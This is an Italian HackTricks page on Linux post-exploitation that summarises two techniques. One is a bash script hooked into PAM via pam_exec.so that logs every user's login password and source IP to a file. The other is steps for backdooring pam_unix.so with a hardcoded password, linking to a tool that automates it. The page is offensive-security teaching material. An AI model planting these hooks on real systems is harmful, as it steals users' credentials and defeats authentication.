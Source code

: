 # Post-Esploitation Linux

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Intercettare le Password di Accesso con PAM

Configuriamo un modulo PAM per registrare ogni password che ogni utente utilizza per accedere. Se non sai cos'è PAM, controlla:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**Per ulteriori dettagli consulta il [post originale](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Questo è solo un riassunto:

**Panoramica della Tecnica:**
I Moduli di Autenticazione Pluggabili (PAM) offrono flessibilità nella gestione dell'autenticazione sui sistemi basati su Unix. Possono migliorare la sicurezza personalizzando i processi di accesso ma possono anche comportare rischi se utilizzati in modo improprio. Questo riassunto illustra una tecnica per catturare le credenziali di accesso utilizzando PAM, insieme a strategie di mitigazione.

**Cattura delle Credenziali:**
- Viene creato uno script bash chiamato `toomanysecrets.sh` per registrare i tentativi di accesso, catturando la data, il nome utente (`$PAM_USER`), la password (tramite stdin) e l'IP dell'host remoto (`$PAM_RHOST`) in `/var/log/toomanysecrets.log`.
- Lo script viene reso eseguibile e integrato nella configurazione PAM (`common-auth`) utilizzando il modulo `pam_exec.so` con opzioni per eseguire in modo silenzioso ed esporre il token di autenticazione allo script.
- L'approccio dimostra come un host Linux compromesso possa essere sfruttato per registrare le credenziali in modo discreto.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**Per ulteriori dettagli consulta il [post originale](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Questo è solo un riassunto:

Il Pluggable Authentication Module (PAM) è un sistema utilizzato in Linux per l'autenticazione degli utenti. Si basa su tre concetti principali: **username**, **password** e **service**. I file di configurazione per ciascun servizio si trovano nella directory `/etc/pam.d/`, dove le librerie condivise gestiscono l'autenticazione.

**Obiettivo**: Modificare PAM per consentire l'autenticazione con una password specifica, bypassando la password effettiva dell'utente. Questo è particolarmente focalizzato sulla libreria condivisa `pam_unix.so` utilizzata dal file `common-auth`, incluso da quasi tutti i servizi per la verifica della password.

### Passaggi per la Modifica di `pam_unix.so`:

1. **Individuare la Direttiva di Autenticazione** nel file `common-auth`:
- La riga responsabile del controllo della password dell'utente chiama `pam_unix.so`.
2. **Modificare il Codice Sorgente**:
- Aggiungere un'istruzione condizionale nel file sorgente `pam_unix_auth.c` che concede l'accesso se viene utilizzata una password predefinita, altrimenti procede con il normale processo di autenticazione.
3. **Ricompilare e Sostituire** la libreria `pam_unix.so` modificata nella directory appropriata.
4. **Test**:
- L'accesso è concesso attraverso vari servizi (login, ssh, sudo, su, screensaver) con la password predefinita, mentre i processi di autenticazione normali rimangono invariati.

{% hint style="info" %}
È possibile automatizzare questo processo con [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}
